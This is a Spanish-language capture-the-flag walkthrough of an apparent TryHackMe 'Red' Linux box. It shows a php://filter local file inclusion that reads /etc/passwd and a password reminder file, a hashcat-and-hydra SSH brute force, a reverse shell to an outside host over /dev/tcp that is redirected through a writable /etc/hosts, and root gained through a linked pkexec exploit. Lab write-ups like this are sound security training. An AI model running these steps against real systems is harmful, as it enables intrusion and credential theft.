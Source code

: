 #Linux #Easy 
## Nmap 
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directamente en la web vemos esto: ``http://10.10.228.16/index.php?page=home.html``
## Local File Inclusion

[Example](https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb)
Podemos ver el contenido del archivo ``.php`` de la pagina.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=index.php"
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

aprovechamos para ver el ``/etc/passwd``
```python
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

```

Miramos el ``.bash_history`` para ver el historial de comandos ejecutados.
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.bash_history"
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

Veo algunos comandos, esta creando una listas de passwords con el contenido de el archivo ``.reminder`` y lo guarda en un ``passlist.txt``

El archivo ``.reminder`` contiene esto:
```bash
❯ curl --path-as-is "http://10.10.139.248/index.php?page=php://filter/convert.base64-encode|convert.base64-decode/resource=/home/blue/.reminder"
sup3r_p@s$w0rd!
```

Voy a crear una lista de passwords al igual que se hizo en la maquina:
```bash
❯ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
❯ ls
passlist.txt
```

Fuerza Bruta con ``hydra``
```bash
❯ hydra -l blue -P passlist.txt ssh://10.10.139.248
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-24 15:59:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.139.248:22/
[22][ssh] host: 10.10.139.248   login: blue   password: sup3r_p@s$w0!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-24 16:00:12
```

Al ejecutar pspy, podemos ver este proceso ejecutándose: 
```bash
2023/10/24 20:08:55 CMD: UID=1001  PID=14911  | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```

Se manda una revShell a el dominio ``redrules.thm``, vamos a ver a que apunta esto en el ``etc/hosts``:
```bash
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

El dominio no apunta a ningún lado, pero podemos modificar el archivo ``etc/hosts`` porque tenemos permisos:
```bash
blue@red:~$ ls -la /etc/ | grep hosts
-rw-r--rw-   1 root adm         242 Oct 24 20:12 hosts
```

```bash
echo "10.8.189.249 redrules.thm" >> /etc/hosts
```

### Escalada de Priv

Buscamos Binarios con permisos ``SUID``
```bash
find / -type f -perm -04000 -ls 2>/dev/null

418507     32 -rwsr-xr-x   1 root     root        31032 Aug 14  2022 /home/red/.git/pkexec
```

[Exploit para elevar priv](https://github.com/Almorabea/pkexec-exploit/tree/main)

Modificamos la linea:
```bash
libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
```

Ponemos la ruta de pkexec. 

Ya somos ROOT

